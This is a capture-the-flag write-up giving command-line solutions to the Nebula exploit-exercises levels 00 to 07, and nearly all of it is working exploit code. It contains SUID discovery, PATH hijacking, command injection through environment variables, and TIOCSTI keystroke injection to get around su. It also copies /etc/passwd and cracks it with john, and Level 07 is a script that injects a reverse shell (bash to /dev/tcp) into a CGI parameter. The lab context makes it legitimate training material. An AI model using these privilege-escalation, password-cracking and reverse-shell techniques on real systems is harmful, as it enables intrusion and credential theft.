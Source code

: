 
## Challenge link

    https://exploit-exercises.com/nebula/

## Level 00

    $ find / -perm -4000 -user flag00 2> /dev/null

## Level 01

    $ echo -e '#!/bin/bash\n/bin/sh -c getflag' > ./echo; chmod +x ./echo; PATH=./:"$PATH" /home/flag01/flag01

## Level 02

    $ USER='`/bin/sh -c getflag`' /home/flag02/flag02

## Level 03

```
#!/bin/bash

echo 'getflag > output2' > /home/flag03/writable.d/mz
echo 'Please wait while cron execute your command ...'
while [ ! -f /home/flag03/output2 ]; do sleep 1; done
cat /home/flag03/output2
```

## Level 04

My comments:

```
# this won't work (cause su won't take password from stdin)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | su -

# this also won't work on Ubuntu (why?)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | sudo -u flag04 -S -s getflag

# so to automate it I had to use trick that I've learned from http://vladz.devzero.fr/002_su-stdin.php
```

My solution:

    $ echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk`) & su flag04 -c getflag -

## Level05

    $ cp /home/flag05/.backup/backup-19072011.tgz a.tgz;tar xzf a.tgz; ssh flag05@localhost getflag; rm a.tgz

## Level06

(remote exploit)

This time one need to run it from external machine (not nebula machine) and provide IP address of nebula machine in IP variable (for me it is 192.168.1.236).

My notes:

```

IP=$1

read -r -d '' SRC <<-'EOF'
#include <stdio.h>
#include <sys/ioctl.h>
#include <string.h>

main(int argc, char *argv[]) 
{ 
	char c[512]; 
	int i; 
	sprintf(c, "%s\n", argv[1]); 
	for(i=0; i<strlen(c); ++i) 
		ioctl(0,TIOCSTI,c+i);

	return 0;
}
EOF

echo "$SRC" | gcc -xc -
eval { sleep 1; ./a.out user1; } & su user1
#& scp level06@${IP}:/etc/passwd ./
```

Solution:

    $ IP=192.168.1.236; echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out level06;) & scp level06@$IP:/etc/passwd ./; (sleep 1; ./a.out `john ./passwd --show | awk -F: '{print $2}'`;) & ssh flag06@$IP

## Level07

(remote exploit)


```
#!/bin/bash

# exploit usage: launch exploit from external machine as $1 provide IP to nebula machine

# standard payload to do the level (boring)
PAYLOAD=getflag

# more interesting approch (gives you reverse shell)
IP=$1
REVERSE_IP=$2
REVERSE_PORT=$3

#bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
PAYLOAD2=bash%20%2Di%20%3E%26%20/dev/tcp/${REVERSE_IP}/${REVERSE_PORT}%200%3E%261

if [ -z "$1" ]
then
	echo "Usage: `basename $0` <nebula-machine-ip-address> <reverse-ip> <reverse-port>"
	exit 1
fi

(sleep 1; curl http://${IP}:7007/index.cgi?Host=localhost%3B"${PAYLOAD2}") &
nc -l -p 2222 -vvv
```

